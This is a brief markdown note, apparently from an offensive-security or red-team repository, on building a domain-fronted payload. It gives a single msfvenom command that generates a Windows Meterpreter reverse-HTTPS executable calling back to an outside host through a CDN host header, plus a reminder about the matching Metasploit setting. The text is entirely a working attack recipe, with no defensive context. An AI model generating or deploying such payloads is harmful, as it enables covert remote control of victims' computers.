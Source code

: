 # Create df payload
dont forget to set HttpHostHeader offensive-security.azureedge.net in metasploit
```
msfvenom -p windows/x64/meterpreter_reverse_https HttpHostHeader=cdn123.offseccdn.com LHOST=good.com LPORT=443 -f exe > https-df.exe
```
